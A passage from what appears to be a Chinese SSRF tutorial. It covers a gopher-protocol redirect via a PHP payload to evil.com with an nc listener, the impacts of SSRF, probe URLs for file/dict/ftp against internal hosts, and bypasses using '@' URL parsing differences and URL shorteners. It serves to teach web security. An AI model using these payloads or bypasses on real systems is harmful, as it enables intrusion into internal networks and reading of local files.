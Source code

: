 ```
Gopher是一种分布式文档传递服务。利用该服务，用户可以无缝地浏览、搜索和检索驻留在不同位置的信息。

http://example.com/ssrf.php?url=http://attacker.com/gopher.php gopher.php (host it on acttacker.com):-<?php header('Location: gopher://evil.com:1337/_Hi%0Assrf%0Atest');?>
evil.com:# nc -lvp 1337
Listening on [0.0.0.0] (family 0, port1337)Connection from [192.168.0.12] port 1337[tcp/*] accepted (family 2, sport 49398)Hissrftest
```

### 六、SSRF漏洞利用（危害）

```
1.可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息;

2.攻击运行在内网或本地的应用程序（比如溢出）;

3.对内网web应用进行指纹识别，通过访问默认文件实现;

4.攻击内外网的web应用，主要是使用get参数就可以实现的攻击（比如struts2，sqli等）;

5.利用file协议读取本地文件等。.

6.各个协议调用探针：http,file,dict,ftp,gopher等

http:192.168.64.144/phpmyadmin/
file:///D:/www.txt
dict://192.168.64.144:3306/info
ftp://192.168.64.144:21
```

### 七、SSRF绕过方式

#### 1、**常见的绕过方式**

##### 1.限制为http://www.xxx.com域名时（利用@）

```
可以尝试采用http基本身份认证的方式绕过

如：http://www.aaa.com@www.bbb.com@www.ccc.com，在对@解析域名中，不同的处理函数存在处理差异

在PHP的parse_url中会识别www.ccc.com，而libcurl则识别为www.bbb.com。
```

##### 2.采用短网址绕过

```
比如百度短地址https://dwz.cn/

可以利用在线短网址生成器（https://45t.cn/）将其他网址进行短网址转化绕过

把一个非常长感觉不怀好意的网址变成一个短小看不出来是什么的短网址
```
